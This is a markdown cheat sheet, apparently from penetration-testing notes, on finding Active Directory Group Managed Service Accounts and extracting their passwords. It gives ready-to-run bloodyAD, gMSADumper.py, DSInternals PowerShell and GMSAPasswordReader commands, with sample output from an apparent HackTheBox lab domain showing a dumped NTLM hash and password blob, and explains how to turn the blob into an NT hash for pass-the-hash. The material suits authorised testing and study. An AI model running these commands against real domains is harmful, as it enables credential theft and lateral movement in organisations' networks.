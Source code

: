 # Group Managed Service Accounts


## Detection
 * Bloodhound Data
 ```bash
 cat <Users.json> | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 ```
 Example:
 ```bash
 loot cat 20241130134537_users.json | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 1717583255:krbtgt
 1717584108:gMSA01$
 1717594268:G.Viola
 1717594268:L.Bianchi
 1717594268:M.Rossi
 1717594268:R.Verdi
 1717621693:C.Neri
 1717681527:svc_ark
 1717681527:svc_ldap
 1717757654:C.Neri_adm
 1717846494:Administrator
 1730896036:P.Rosa
 1731507413:Guest
 1732621230:L.Bianchi_adm
 1733002326:svc_sql
 ```
## Exploitation from Linux
### BloodyAD
 * Getting the hash:
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword
 ```
 * Example
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword 
 distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
 msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
 msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```
### [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)
> gMSADumper.py requires LDAPS, which normally won't be available through linux
 ```bash
 # With Username and password
 python3 gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
 
 # With Kerberos
 python3 gMSADumper.py -k -d 'vintage.htb' -l 'dc01.vintage.htb'
 ```
## Exploitation from Windows
### AD and DSInternals
 ```ps1
 # Save the blob to a variable
 $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
 $mp = $gmsa.'msDS-ManagedPassword'

 # Decode the data structure using the DSInternals module
 ConvertFrom-ADManagedPasswordBlob $mp
 # Build a NT-Hash for PTH
 (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
 # Alterantive: build a Credential-Object with the Plain Password
 $cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
### [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)
 ```ps1
 .\GMSAPasswordReader.exe --AccountName 'Target_Account'
 ```

